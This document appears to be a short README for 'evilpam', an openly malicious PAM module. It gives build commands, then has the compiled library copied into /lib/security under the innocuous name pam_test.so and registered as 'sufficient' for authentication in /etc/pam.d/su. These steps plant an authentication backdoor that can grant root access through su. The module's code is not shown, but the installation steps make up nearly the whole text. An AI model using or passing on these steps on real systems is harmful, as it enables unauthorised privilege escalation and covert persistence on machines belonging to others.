 # evilpam

```
mkdir -p build && cd build
cmake ..
make
```

```
mv evilpam.so /lib/security/pam_test.so
```

add in `/etc/pam.d/su`

```
auth            sufficient      pam_test.so
```